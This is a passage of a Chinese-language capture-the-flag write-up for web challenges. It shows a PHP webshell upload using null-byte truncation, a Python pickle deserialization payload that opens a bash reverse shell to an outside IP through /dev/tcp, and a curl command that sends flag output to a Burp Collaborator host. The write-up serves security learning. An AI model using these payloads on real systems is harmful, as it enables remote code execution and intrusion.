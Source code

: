file_put_contents()执行文件写入，内容可控+路径已知，过滤的点在于后缀名是bmp或png 并且只有除去后缀的这文件名可控，php版本是5.2.17，用00截断绕过（post部分要urlencode一下 burp或者hackbar就直接转了

```
/qbl.php?id=wuhu.php%00a&url=http://baidu.com
POST: img=data:image/png;base64,PD9waHAgQGV2YWwoJF9QT1NUWyd3dWh1J10pOyA/Pg==
```

参考：[wp](https://eastjun.top/2021/08/03/dasctf-july-x-cbctf-4th/)

## easyweb

有一个docker的附件和一些源码

![image-20210805160437216](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210805160437216.png)

首页就是个白底黑字的Hello World，审下源码

![image-20210805160540313](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210805160540313.png)

![image-20210805160627110](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210805160627110.png)

直接打断点调试一下（因为这里涉及到session的调用 所以在.vscode中的launch.json处添加一个configuration: `"justMyCode": false`这样可以在调用堆栈处看到完整的调用情况

![image-20210805180835775](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210805180835775.png)

可以注意到每次刷新之后 session的值都会发生变化，调试的时候可以看到生成这个session时调用了dumps方法，所以这个题就是反序列化的套路啦

payload有两种吧 反弹shell 或者构造post/get请求到自己可以接收到的平台上，也都是常规做法

```python
class A:
    def __reduce__(self):
        cmd = 'bash -c "bash -i >& /dev/tcp/175.24.73.30/2333 0>&1"'
        s="__import__('os').popen('{}').read()".format(cmd)
        return (eval,(s,))  #reduce必须返回元组或字符串

def hello_world(request):
    request.session["233"] = "2333"
    request.session["a"] = A()
    return Response('Hello World!')
```

构造请求的话还是老朋友~~ burp collaborator~~

```bash
curl "xxxxxx.burpcollaborator.net/`readflag`"
```

参考：[wp](http://www.snowywar.top/wp-content/uploads/2021/08/%E9%AD%94%E6%B3%95%E5%B0%91%E5%A5%B3%E5%A4%A9%E5%9B%A2WriteUP.pdf)

## easyjava

java 根本不会
